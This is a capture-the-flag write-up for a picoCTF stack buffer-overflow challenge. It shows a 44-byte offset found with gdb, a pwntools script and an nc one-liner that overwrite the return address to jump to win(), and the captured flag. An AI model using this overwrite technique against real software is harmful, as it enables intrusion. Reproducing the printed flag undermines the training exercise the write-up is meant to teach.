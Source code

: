 - This is a simple challenge where we need to make sure the win function gets called

- We see that win() prints the flag but isn’t being called in main or any other place.  We can call the function by passing in the address(with offset) via gets when vuln() is called by main, this ensures that the win function gets called.

- So now we need to find the offset of the buffer. We open debug using gdb. We generate a pattern of length 200, and input it as string and then we see that on overflow it returns an address `0x6161616c`,pattern laaa i.e, eip

- Now we need to enter offset of 44 letters and then address of win function in order to overwrite
- do info functions and get the address of win - We see win is at `0x080491f6`
- note that it is little endian

here is the python script
```python
from pwn import *
p = remote("saturn.picoctf.net",53482)
payload = b"A"*44+p32(0x80491f6)
p.sendline(payload)
p.interactive()
```

on running this
```bash
[+] Opening connection to saturn.picoctf.net on port 53482: Done
[*] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
```

Or run this command
```bash
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | nc saturn.picoctf.net 53482
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}   
```

**FLAG - `picoCTF{addr3ss3s_ar3_3asy_b15b081e}`**
